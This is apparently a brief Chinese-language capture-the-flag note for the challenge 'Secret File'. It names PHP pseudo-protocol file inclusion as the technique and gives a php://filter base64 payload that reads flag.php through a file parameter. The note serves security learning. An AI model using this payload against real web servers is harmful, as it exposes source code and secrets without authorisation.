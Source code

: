 # [极客大挑战 2019\]Secret File

## 知识点

* [配合php伪协议利用文件包含漏洞](https://blog.csdn.net/zpy1998zpy/article/details/80598768)

* [PHP伪协议总结](https://blog.csdn.net/nzjdsds/article/details/82461043)

使用php的file伪协议去读取文件

?file=php://filter/convert.base64-encode/resource=flag.php

